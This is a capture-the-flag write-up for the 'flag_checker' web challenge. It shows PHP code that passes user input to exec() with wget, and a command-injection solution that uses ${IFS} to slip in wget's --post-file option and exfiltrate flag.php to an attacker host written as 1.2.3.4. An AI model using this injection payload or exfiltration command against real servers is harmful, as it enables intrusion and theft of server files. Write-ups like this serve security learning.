 flag_checker
=========

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n)), Will Green ([Ducky](https://github.com/wlg0005))
-------------------------------------------------------------

Challenge Description
---------------------

```
This new service checks if your flags are valid. What could possibly go wrong?
```

Overview
--------

We are presented with the following PHP code on initially visiting the challenge site:

```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```

It appears that a value is passed via the `flag` GET parameter as such:

```
http://challs.xmas.htsp.ro:3001?flag=...
```

That value is then passed into `checkFlag($flag)`. If `checkFlag($flag)` fails, the program halts, but if it succeeds, our `flag` parameter is passed into `getFlag($flag)`. 

The function `checkFlag($flag)` seems to be checking to make sure our value for `flag` only contains characters within the following string (via a case-insensitive compare):

```
FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}
```

If our `flag` parameter contains any character not in that string, we do not get to the `getFlag($flag)` function.

Say we get past `checkFlag($flag)`. What does `getFlag($flag)` do?

On the surface, it seems to concatenate our input to a URL (`https://kuhi.to/flag/`) and then attempts to `wget` the URL using an `exec()` call. If the `wget` command fails and a file with the title of our `flag` parameter doesn't exist on the website, it just `echo()`s 'Nope'. If `wget` succeeds, it `echo()`s 'Maybe'. 

Solution
--------

It is generally *very* bad practice to have an `exec()` function called in a PHP program, especially if it contains user-supplied data. 

Our attack here is starting to look like command injection.

There is one slight problem, however. Because of `checkFlag($flag)`, we are limited in the characters we can use. Most notably, we are not allowed to use a space character. 

We are, however, allowed to use special characters such as `$`, `{`, `}`, and `.`, as well as all integers.

The `${}` combination is most interesting, as bash allows for something called [parameter and variable expansion](https://tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_04.html). 

By inserting variable names inside `${...}`, you can get a bash shell to add the values of those variables into your command.

After doing some research on [built-in bash variables](https://tldp.org/LDP/abs/html/internalvariables.html), we discovered the `$IFS` variable. 

IFS, short for 'internal field separator', "determines how bash recognizes word boundaries" in strings and defaults to whitespace. 

This means that we can now add a space character in our `flag` parameter just by inserting `${IFS}`. Because we didn't want to get too deep and try to figure out how to insert a semicolon and somehow get more than we needed here, we decided to try POSTing the flag from the challenge server to our own listener. For demonstration purposes, we will say our server IP is 1.2.3.4. 

Since `wget` allows for multiple URLs in one line, we can try to get the server to execute the following:

```bash
wget -q -O - https://kuhi.to/flag/ --post-file flag.php 1.2.3.4
```

Again, since we dont have access to an explicit space character, we will have to use the `${IFS}` expansion. So our `flag` value should be:

```
${IFS}--post-file${IFS}flag.php${IFS}1.2.3.4
```

After setting up a listener on our server, we can visit the following URL:

```
http://challs.xmas.htsp.ro:3001/?flag=${IFS}--post-file${IFS}flag.php${IFS}1.2.3.4
```

Checking out the HTTP POST request listener on our server, we can see flag come through:

![listener](listener.png)

Flag: `X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}`